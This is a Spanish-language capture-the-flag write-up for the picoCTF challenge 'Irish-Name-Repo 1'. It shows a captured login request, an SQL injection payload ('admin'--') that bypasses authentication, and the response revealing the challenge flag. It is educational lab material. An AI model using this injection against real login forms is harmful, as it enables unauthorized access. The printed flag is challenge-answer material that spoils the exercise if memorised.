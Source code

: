 # Irish-Name-Repo 1

## Descripcion
There is a website running at `https://jupiter.challenges.picoctf.org/problem/39720/` ([link](https://jupiter.challenges.picoctf.org/problem/39720/)) or http://jupiter.challenges.picoctf.org:39720. Do you think you can log us in? Try to see if you can login!

## Solucion
Accedemos al sitio con el link que nos proporciona el reto y despues vamos a la ventana de admin login.
Probamos con credenciales sencillas como `username:admin; password:admin`
Pero vemos que no funcionan, entonces con ayuda de burpsuite vamos a ver si podemos obtener una pista al ver la peticion.
``
```
POST /problem/39720/login.php HTTP/1.1
Host: jupiter.challenges.picoctf.org
Content-Length: 37
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: https://jupiter.challenges.picoctf.org
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://jupiter.challenges.picoctf.org/problem/39720/login.html
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive

username=admin&password=admin&debug=0
```
Vemos que simplemente se envia lo que escribimos y en el orden que lo hacemos, por la pista nos damos cuenta que tal vez tenga algo que ver con bases de datos, entonces probamos con una inyeccion SQL:
```
username=admin'--&password=admin&debug=0
```
Y vemos que funciono, la respuesta nos devuelve la flag:
```
HTTP/1.1 200 OK
Server: nginx
Date: Sun, 30 Mar 2025 01:06:49 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Strict-Transport-Security: max-age=0
Content-Length: 66

<h1>Logged in!</h1><p>Your flag is: picoCTF{s0m3_SQL_c218b685}</p>
```

```flag
picoCTF{s0m3_SQL_c218b685}
```


## Notas adicionales

## Referencias
